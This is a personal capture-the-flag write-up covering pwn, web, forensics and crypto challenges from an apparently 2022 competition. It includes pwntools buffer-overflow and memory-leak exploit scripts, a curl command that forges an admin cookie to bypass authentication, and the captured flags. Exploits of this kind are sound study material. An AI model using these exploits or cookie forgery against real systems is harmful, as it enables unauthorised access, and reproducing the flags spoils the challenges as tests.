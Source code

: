 I actually had a team for this one; decided I'd learn more and of course be more successful with others so I acquired some help. These are the challenges I solved (organized from most interesting to least).

## logloglog
I didn't actually solve this during competition-time, but I thought it was really interesting nonetheless. It's a variation on the discrete log problem (so I tried and failed to bruteforce it using Pohlig-Hellman and baby-step giant-step). Turns out that doing discrete log mod 2^1024 (which was the scaling factor of the Proth prime) was the only thing necessary to bruteforce (as the answer is retained in the last 1024 bits without having to discrete log mod q (which is what I was doing), a large prime).

[Official writeup here](https://hackmd.io/@lamchcl/rJgPUtgI5#log-log-log)

## wah
I put this in "interesting" because this was my first foray into pwn. Quite fun. Procedure: find offset of variable you can overflow from the instruction pointer, then overflow and overwrite the address it's pointing to (as that's what will execute).
```python
from pwn import *

target = remote('challs.actf.co', 31224)
#target = process('./wah')
payload = b"0"*0x28
payload += p64(0x401236)

target.sendline(payload)
```
## whatsmyname
Turns out if you don't properly null-terminate a user-supplied  string, you can read arbitrary memory (in this case, the a random variable).
```python
target = remote("challs.actf.co", 31223)
target.sendline("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
line = target.recvline()
#print(line)
#print(target.recvline())
target.sendline(line[-49:][:-1])
#print(line[-49:][:-1])
print(target.recvline())
target.close()
```

# Simpler Challenges
## Amogus
```bash
diff -q --from-file actf\{look1ng_f0r_answers_in_the_p0uring_r4in_*; echo $?

Files actf{look1ng_f0r_answers_in_the_p0uring_r4in_001a5e03f1d9}.txt
and actf{look1ng_f0r_answers_in_the_p0uring_r4in_b21f9732f829}.txt differ
```
flag = `actf{look1ng_f0r_answers_in_the_p0uring_r4in_b21f9732f829}.txt`

## Crumbs
There may have been an easier way to do this but php is annoying and 1000 requests took maybe 2 minutes so ...
```python
import requests

apend = ""
for x in range(1001):
    resp = requests.get("https://crumbs.web.actf.co/"+apend).text
    print(resp)
    apend = resp.split("to ")[-1]
```

## Shark 1
```
strings shark1.pcapng | grep "actf"
Emactf{wireshark_doo_doo_doo_doo_doo_doo}
```
## Shark 2
1. "Ooh look an (unencrypted) conversation". 
2. 'I am sending the file now' says `10.0.2.15` ... oh come on this is too easy
3. A TCP stream from that address can be found immediately after 
4. Me: \*Follows stream\*
5. There's an image header: it's a JFIF (aka jpeg) file
5. Export as `shark.jpeg` (Wireshark conveniently has this function available)
6. Profit (the image had the flag)


## Auth Skip
I love default bash tools (and Linux as a whole but that's not largely relevant here): `curl -v --cookie "user=admin" https://auth-skip.web.actf.co/`

## The Flash
SimpleScreenRecorder + VLC ('e' to step forward a frame)

!["Sometimes simple solutions are best"](../cdn/flash.png "Sometimes simple solutions are best")

## Caesar and Desister
One word: [dcode.fr](https://www.dcode.fr/caesar-cipher)

!["Thanks dcode.fr"](../cdn/dcode.png)


